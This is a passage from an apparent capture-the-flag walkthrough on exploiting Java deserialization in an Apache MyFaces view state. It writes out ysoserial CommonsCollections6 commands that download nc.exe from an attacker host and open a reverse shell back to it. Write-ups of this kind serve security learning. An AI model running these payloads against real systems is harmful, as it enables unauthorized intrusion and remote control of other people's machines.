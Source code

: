 From `web.xml.bak` we got the secret, which is the same for both DES and HMAC-SHA1.


{% include image.html image_alt="52d81155.png" image_src="/89c1de95-c353-4395-a1d5-e3dc9d923db1/52d81155.png" %}


Let's give it a shot.


{% include image.html image_alt="128b9cfd.png" image_src="/89c1de95-c353-4395-a1d5-e3dc9d923db1/128b9cfd.png" %}


It's a serialized Java object indeed!

Now, we can use `ysoserial` to generate a payload and sneak it into the view state.

The Apache MyFaces 1.2 project page lists the Commons Collections framework as one of its dependencies. Let's use it to generate our payload, specifically CommonsCollections6 for commons-collections:3.1.

```
# java -jar ysoserial.jar CommonsCollections6 'powershell Invoke-WebRequest http://10.10.12.32/nc.exe -OutFile nc.exe' > payload
```

The first payload is to copy a `nc.exe` to the current directory or folder, wherever that may be, using PowerShell.


{% include image.html image_alt="38294c3a.png" image_src="/89c1de95-c353-4395-a1d5-e3dc9d923db1/38294c3a.png" %}


Next, we copy the `base64`-encoded string and put it into the view state parameter for the Tomcat back-end to deserialize it.


{% include image.html image_alt="a6849087.png" image_src="/89c1de95-c353-4395-a1d5-e3dc9d923db1/a6849087.png" %}


I think we achieved remote command execution! Our next payload will be to run a reverse shell back to us.

```
# java -jar ysoserial.jar CommonsCollections6 'nc.exe 10.10.12.32 1234 -e cmd' > payload
```

Here's the `base64`-encoded payload.


{% include image.html image_alt="fb9a0e79.png" image_src="/89c1de95-c353-4395-a1d5-e3dc9d923db1/fb9a0e79.png" %}


Let's do the same thing: replace with the original view state with our own.


{% include image.html image_alt="88ba8e22.png" image_src="/89c1de95-c353-4395-a1d5-e3dc9d923db1/88ba8e22.png" %}


And we have ourselves a low-privilege shell! We can also enter into a PowerShell session.
